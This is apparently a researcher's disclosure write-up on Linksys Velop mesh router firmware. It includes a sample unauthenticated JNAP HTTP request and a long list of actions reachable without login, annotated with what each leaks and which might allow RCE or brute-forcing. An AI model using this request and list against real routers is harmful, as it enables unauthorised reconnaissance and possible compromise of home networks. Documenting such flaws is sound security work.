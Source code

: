 ```yaml
---
published: false
categories: [vulnerability,Linksys]
tags: [Linksys Velop information leak]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
Since the vendor marked this issue as wont fix, so this is only a risk.

There are many information leak problems, one of them is through /sysinfo_json.cgi, requesting this url will leak sensitive information and may lead to authentication bypass.

The Linksys APP will use JNAP to communicate with the router, and  there are many kinds of X-JNAP-Action can be made to request the router, we found the router can handle many actions without authentication. A sample request can be :
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 2
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/devicelist/GetDevices

{}
~~~

#### PoC

Beyond action of http://linksys.com/jnap/devicelist/GetDevices , the following actions can be also made without authentication, some of them need parameters while the others not:

- nodes/smartconnect/GetSlaveSetupStatus (TBD see if there is useful information)
- nodes/smartconnect/SmartConnectConfigure (possible RCE)
- firmwareupdate/GetFirmwareUpdateStatus (nothing useful)
- dynamicportforwarding/GetDynamicIPv6ConnectionRules(get ipv6 rules)
- dynamicportforwarding/GetDynamicPortRangeForwardingRules (get forwarding rules)
- dynamicportforwarding/GetDynamicSinglePortForwardingRules (get forwarding rules)
- routerstatus/GetHeartbeatInterval  (nothing useful)
- nodes/setup/GetSerialNumber (TBD serial number may be used to calulate somethin, not sure)
- nodes/setup/GetWANDetectionStatus (some WAN detection status, not too much useful)
- nodes/setup/IsAdminPasswordSetByUser (get to know if users have set ADMIN password)
- nodes/setup/SetAdminPassword(2018.04.04 not useful,reset code cannot be bruteforced)
- nodes/setup/VerifyRouterResetCode(2018.04.04 cannot be bruteforced,10 times limit)
- devicelist/GetDevices(lot of information, such as deviceID,serialNumber,firmwareVersion,isAuthority and so on)
- devicelist/GetDevices3(lot of information, such as deviceID,serialNumber,firmwareVersion,isAuthority and so on)
- devicelist/GetLocalDevice (get deviceID)
- nodes/smartmode/GetDeviceMode(get to know what type of current node it is, like master of slave)
- qos/GetLANQoSSettings (get QoS setting)
- qos/GetQoSSettings (get QoS setting)
- qos/GetQoSSettings2 (get QoS setting)
- qos/GetWLANQoSSettings(get QoS setting)
- routermanagement/GetManagementSettings (get management settings)
- routermanagement/GetManagementSettings2 (get management settings, such as canManageUsingHTTP,canManageUsingHTTPS, isManageWirelesslySupported,canManageWirelessly,canManageRemotely)
- routermanagement/GetRemoteManagementStatus(remote management status)
- httpproxy/RemoveHttpProxyRule(remove a HTTP proxy rule by providing a ruleUUID)
- locale/GetLocalTime (get time)
- locale/GetTimeSettings(get time settings, like timezone,autoAdjustForDST and others)
- ui/GetCloudServerStatus (get to know if current node is accessable to the cloud)
- ui/GetRemoteSetting (get to know if it is enabled)
- ui/SetRemoteSetting(set if it is able to get remote setting)
- wirelessap/GetAdvancedRadioInfo (wireless info, not much useful info)
- wirelessap/GetWPSServerSettings(if the WPS is enabled)
- wirelessap/IsWPSServerAvailable(TBD if WPS server is enabled, not clear what is it)
- routerleds/GetRouterLEDSettings(wireless LED setting)
- ownednetwork/GetOwnedNetworkID(TBD get ownedNetworkID, may be useful)
- core/GetAdminPasswordHint(not too much useful)
- core/GetAdminPasswordRestrictions(not too much useful)
- core/GetDataUploadUserConsent (false by default)
- core/GetDeviceInfo(router info, such as serialNumber,firmwareVersion,hardwareVersion,services)
- core/GetUnsecuredWiFiWarning(not too much useful)
- core/IsAdminPasswordDefault(get to know if users have set ADMIN password)
- core/IsRecoveryCodeProvided(nothing special)
- core/IsServiceSupported(check whether a service is available)
- core/SetUnsecuredWiFiWarning(not too much useful)
- parentalcontrol/GetParentalControlSettings(get to know parent control setting)
- diagnostics/GetDiagnosticsSettings(not too much useful)
- networkconnections/GetNetworkConnections(not too much useful)
- router/GetWANStatus2(not too much useful)
- guestnetwork/GetGuestNetworkClients(get guest network clients)
- guestnetwork/GetGuestNetworkSettings2(guest network settings)
- routerlog/GetDHCPLogEntries(get DHCP log)
- routerlog/GetIncomingLogEntries(get incoming log)
- routerlog/GetOutgoingLogEntries(get outgoin log)
- routerlog/GetSecurityLogEntries(get security log)
- routerlog/GetLogSettings(log setting)
- wirelessscheduler/GetWirelessSchedulerSettings(wireless scheduler settings)
- guestnetwork/Authenticate(TBD interesting, dont know if we can brute force it or there will be vulnerability)
- dynamicsession/GetDynamicSessionInfo(dynamic session info)
- dynamicsession/GetDynamicSessions(dynamic session info)
- ddns/GetDDNSStatus(ddns status)
- ddns/GetDDNSStatus2(ddns status)
- ddns/GetSupportedDDNSProviders(not too much useful)
- router/GetDHCPClientLeases(not too much useful)
- router/GetEthernetPortConnections(not too much useful)
- router/GetExpressForwardingSettings(not too much useful)
- router/GetIPv6Settings(ipv6 settings)
- router/GetIPv6Settings2(ipv6 settings)
- router/GetLANSettings(lan info)
- router/GetMACAddressCloneSettings(MAC clone settings)
- router/GetRoutingSettings(route settings)
- router/GetStaticRoutingTable(routing table)
- router/GetWANStatus(WAN status)
- router/GetWANStatus3(WAN status)
- routerupnp/GetUPnPSettings(UPnP settings)
- firewall/GetALGSettings(ALG settings, but what is ALG?)
- firewall/GetDMZSettings(DMZ Settings)
- firewall/GetFirewallSettings(Firewall settings)
- firewall/GetIPv6FirewallRules(Firewall settings)
- firewall/GetPortRangeForwardingRules(port forward)
- firewall/GetPortRangeTriggeringRules(port rules)
- firewall/GetSinglePortForwardingRules(port formward)



### Timeline

2018-03-04: Discovered
2019-02-05: Reported and the vendor marked this issue wont fix

